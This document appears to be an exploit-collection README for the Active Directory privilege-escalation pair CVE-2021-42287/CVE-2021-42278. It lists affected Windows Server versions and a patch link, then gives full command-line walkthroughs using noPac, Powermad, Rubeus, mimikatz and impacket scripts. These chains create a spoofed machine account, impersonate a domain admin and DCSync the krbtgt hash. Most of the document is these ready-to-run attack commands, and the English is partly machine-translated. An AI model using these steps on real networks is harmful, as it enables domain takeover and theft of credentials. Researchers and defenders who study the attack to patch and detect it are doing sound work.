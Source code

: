 ### CVE-2021-42287

#### Describe

The CVE-2021-42287/CVE-2021-42278 combo box can pass the ordinary user authority account to win the Microsoft Windows Active Directory domain service administrator authority account

#### ImpactVersion

| Product             | CPU Architecture | Version | Update | Tested   |
| ------------------- | ---------------- | ------- | ------ | -------- |
| Windows Server 2008 | x86/x64          |         | SP2    |          |
| Windows Server 2008 | x64              | R2      | SP1    |          |
| Windows Server 2012 |                  |         |        | &#10004; |
| Windows Server 2012 |                  | R2      |        |          |
| Windows Server 2016 |                  |         |        |          |
| Windows Server 2019 |                  |         |        |          |
| Windows Server 2022 |                  |         |        |          |
| Windows Server      |                  | 2004    |        |          |
| Windows Server      |                  | 20H2    |        |          |

#### Patch

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2021-42287
```

#### Utilization

CompilerEnvironment

- VS2019（.NET Framework 4.0）AnyCPU Release

> The demonstration uses the noPac project

Preconditions for exploiting vulnerabilities, and points to note

- Ability to add regular users of the machine (MachineAccountQuota defaults to 10, and a value of 0 means that regular users cannot create machine accounts and cannot directly exploit this vulnerability)

  <img src="https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2021-42287_0x01.png" alt="12" style="zoom:50%;" />

- There is also noPac, a tool that simulates the domain administrator, but if the user ptt does not exist in the domain administrator group, an error will be reported. You need to specify the administrator through `/IMPERSONATE domain_admin_user`, and the error is as follows

  ![image-20211214141231851](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2021-42287_0x02.png)

First get the administrator account in the domain

```powershell
net group "domain admins" /domain
```

After obtaining the administrator account, execute the following command

```powershell
.\noPac.exe -domain <域名> -user <能添加普通账户的账号> -pass <能添加普通账户的密码>  /dc <域控机器>  /mAccount <你想添加到域中的账号> /mPassword <你想添加到域中的密码> /service <票据的服务名> /IMPERSONATE <获取到的域管理员账号> /ptt
```

Explain a few parameters, the bill service name generally uses cifs

```
domain name：cn.ascotbe.test.com
dc：DC1.cn.ascotbe.test.com
service：cifs
```

![image-20211214142856348](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2021-42287_0x03.png)

Then verify by executing the following command

```powershell
#View bill
klist
#Obtain C drive file
dir \\dc\c$
```

![image-20211214143041849](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2021-42287_0x04.png)

> Use the sam-the-admin project

No test, you can use -h to view the command

> Use the command line to execute

windows

```powershell
# 0. create a computer account
Import-Module .\Powermad.ps1

$password = ConvertTo-SecureString 'ComputerPassword' -AsPlainText -Force
New-MachineAccount -MachineAccount "ControlledComputer" -Password $($password) -Domain "domain.local" -DomainController "DomainController.domain.local" -Verbose

# 1. clear its SPNs
Set-DomainObject "CN=ControlledComputer,CN=Computers,DC=domain,DC=local" -Clear 'serviceprincipalname' -Verbose

# 2. rename the computer (computer -> DC)
Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "DomainController" -Attribute samaccountname -Verbose

# 3. obtain a TGT
Rubeus.exe asktgt /user:"DomainController" /password:"ComputerPassword" /domain:"domain.local" /dc:"DomainController.domain.local" /nowrap

# 4. reset the computer name
Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "ControlledComputer" -Attribute samaccountname -Verbose

# 5. obtain a service ticket with S4U2self by presenting the previous TGT
Rubeus.exe s4u /self /impersonateuser:"DomainAdmin" /altservice:"ldap/DomainController.domain.local" /dc:"DomainController.domain.local" /ptt /ticket:[Base64 TGT]

# 6. DCSync
(mimikatz) lsadump::dcsync /domain:domain.local /kdc:DomainController.domain.local /user:krbtgt
```

linux

```bash
# 0. create a computer account
addcomputer.py -computer-name 'ControlledComputer$' -computer-pass 'ComputerPassword' -dc-host DC01 -domain-netbios domain 'domain.local/user1:complexpassword'

# 1. clear its SPNs
addspn.py -u 'domain\user' -p 'password' -t 'ControlledComputer$' -c DomainController

# 2. rename the computer (computer -> DC)
renameMachine.py -current-name 'ControlledComputer$' -new-name 'DomainController' -dc-ip 'DomainController.domain.local' 'domain.local'/'user':'password'

# 3. obtain a TGT
getTGT.py -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController':'ComputerPassword'

# 4. reset the computer name
renameMachine.py -current-name 'DomainController' -new-name 'ControlledComputer$' 'domain.local'/'user':'password'

# 5. obtain a service ticket with S4U2self by presenting the previous TGT
KRB5CCNAME='DomainController.ccache' getST.py -self -impersonate 'DomainAdmin' -spn 'cifs/DomainController.domain.local' -k -no-pass -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController'

# 6. DCSync by presenting the service ticket
KRB5CCNAME='DomainAdmin.ccache' secretsdump.py -just-dc-user 'krbtgt' -k -no-pass -dc-ip 'DomainController.domain.local' @'DomainController.domain.local'
```



#### ProjectSource

- [GhostPack](https://github.com/GhostPack/Rubeus)
- [Kevin-Robertson]( https://github.com/Kevin-Robertson/Powermad)
- [cube0x0](https://github.com/cube0x0/noPac)
- [sam-the-admin](https://github.com/WazeHell/sam-the-admin)

#### Analyze

- [CVE-2021-42287/CVE-2021-42278 Weaponisation](https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html)

